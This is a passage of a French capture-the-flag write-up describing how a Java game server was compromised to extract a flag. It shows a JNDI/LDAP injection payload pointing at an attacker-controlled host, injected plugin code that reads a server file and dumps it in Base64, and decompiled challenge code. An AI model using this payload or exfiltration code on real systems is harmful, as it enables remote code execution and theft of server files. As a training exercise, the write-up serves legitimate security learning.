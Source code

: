 Et là miracle:
```
${jndi:ldap://ww.xx.yy.zz:3890/dc=example,dc=com}
[xx/06/2022 xx:55:24] [Internal] [Network thread INFO] [CHAT] <toto> org.hallebarde.recrutement.plugins.JarPluginContainer@3434ac63
[xx/06/2022 xx:55:33] [STDOUT] [Network thread INFO] EXAMPLE File /app/plugins/plugin-npcs-1.0.0.jar
[xx/06/2022 xx:55:33] [STDOUT] [Network thread INFO] EXAMPLE File /app/plugins/plugin-doorsnkeys-1.4.2.jar
[xx/06/2022 xx:55:33] [STDOUT] [Network thread INFO] EXAMPLE File /app/plugins/plugin-singleplayer-1.2.1.jar
```

On peut donc aller plus loin et obtenir un dump en Base64 du fichier de
plugin qui nous intéresse:
```java
    @Override
    public void onLoad(Game game, PluginMetadata metadata, Logger logger) {
        ...
        File jar = new File("/app/plugins/plugin-npcs-1.0.0.jar");
        try {
            var blob = (new FileInputStream(jar)).readAllBytes();
            String encodedMime = Base64.getMimeEncoder().encodeToString(blob);
            System.out.println(encodedMime);
        } catch (Exception e) {
            System.out.println(e.toString());
        }
        ...
    }
```

On recommence l'opération avec cette version du plugin:
```
UEsDBAoAAAgIAMy6tlQAAAAAAgAAAAAAAAAJAAAATUVUQS1JTkYvAwBQSwMECgAACAgAzLq2VLJ/
Au4bAAAAGQAAABQAAABNRVRBLUlORi9NQU5JRkVTVC5NRvNNzMtMSy0u0Q1LLSrOzM+zUjDUM+Dl
4uUCAFBLAwQKAAAICADMurZUAAAAAAIAAAAAAAAABAAAAG9yZy8DAFBLAwQKAAAICADMurZUAAAA
AAIAAAAAAAAADwAAAG9yZy9oYWxsZWJhcmRlLwMAUEsDBAoAAAgIAMy6tlQAAAAAAgAAAAAAAAAa
...
```

On obtient le fichier de 7982 octets plugin-npcs-1.0.0.jar

## Extraction du flag

On peut examiner plugin-npcs-1.0.0.jar avec JADX pour comprendre ce qui
se passe:
```java
public class FlagAI implements ConversationAI {
    private static final String FLAG;
    private boolean hasMore = true;
    private final String flag = FLAG;

    static {
        String flag = System.getProperty("ctf404.flag.cjgJF4GCxj2QD5Lg");
        if (flag == null) {
            throw new IllegalStateException("Ce challenge semble être cassé, merci de signaler cette erreur aux organisateurs.");
        }
        FLAG = flag;
        System.setProperty("ctf404.flag.cjgJF4GCxj2QD5Lg", "Sorry but the flag is no longer here.");
    }
```
